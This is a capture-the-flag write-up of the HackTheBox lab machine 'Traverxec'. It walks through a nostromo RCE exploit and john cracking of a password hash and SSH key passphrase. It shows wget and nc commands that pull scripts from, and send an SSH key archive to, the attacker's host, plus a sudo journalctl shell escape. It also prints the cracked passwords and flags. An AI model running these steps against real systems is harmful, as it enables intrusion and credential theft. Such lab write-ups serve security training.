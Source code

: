 # Traverxec

Author: Ewaël

**Traverxec** is an easy HackTheBox box by jkr.

`nmap -sC -sV -oN nmap 10.10.10.165 -v -A` shows ports 22 and 80 are open. Let's check the website first.

![site](site.png)

After moving around without finding anything interesting I see the website version is `no stromo 1.9.6` in the nmap results.

```
$ searchsploit nostromo
...
nostromo 1.9.6 - Remote Code Execution | multiple/remote/47837.py
...
```

I decide to use it through metasploit after setting `RHOSTS` and `LHOST` correctly and it successfully spawns a shell as `www-data`.

## Privilege escalation

First of all I use `python -c 'import pty; pty.spawn("/bin/bash")'` to get a nicer shell and I start looking for privilege escalation related stuff like `sudo -l` or SUID files but I don't find anything useful. I find a hashed password in `/var/nostromo/conf/.htpasswd`:

```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

`david` is the machine user so I decide to crack the password with john:

```
john --wordlist=/usr/share/wordlists/rockyou.txt david
```

It returns `Nowonly4me` as the password but it does not help me as this password is not `david`'s password and does not work for the `sudo` password either. As this point I have no idea what to do so I decide to try some enumeration.

`wget` is available on the machine but `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` does not work. I decide to download it on host in order to get it from there because the github link seemed to be the problem on the machine. Indeed, doing `python -m SimpleHTTPServer 80` on host and `wget http://10.10.14.34/LinEnum.sh` on the box successfully downloads the script.

After executing it and not finding anything useful I do the same thing with `linpeas.sh` but I get the same results. The only interesting file is the password I already cracked.

Going back to `/var/nostromo/conf` I realize that I ignored a file named `nhttp.conf`:

```
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```

I see that `homedirs` lines and after some searching I realize that I can access `/home/david/public_www`. I download a compressed file in `/home/david/public_www/protected-file-area` named `backup-ssh-identity-files.tgz` with 

```
$ nc -lvnp 4444 > backup-ssh-identity-files.tgz             // on host
$ nc 10.10.14.34 4444 < backup-ssh-identity-files.tgz`      // on box
```

This file contains the `david` private ssh key. I crack the passphrase with john again:

```
$ python /usr/share/john/ssh2john.py id_rsa > david_hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt david_hash
```

`hunter` seems to be the passphrase. I log to the machine as `david` with his private key and passphrase and I get the user flag:

`7db0b48469606a42cec20750d9782f3d`

I still can't run `sudo -l` because neither `hunter` nor `Nowonly4me` are the correct passwords. There is a script in `/home/david/bin` named `server-stats.sh`:

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It shows that I can run `journalctl` with root rights using `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`. A quick search on [GTFOBins](https://gtfobins.github.io) shows me on to pop a root shell using `!/bin/sh` when I am in the `less` command. I can now read the root flag:

`9aa36a6d76f785dfd320a478f6e0d906`
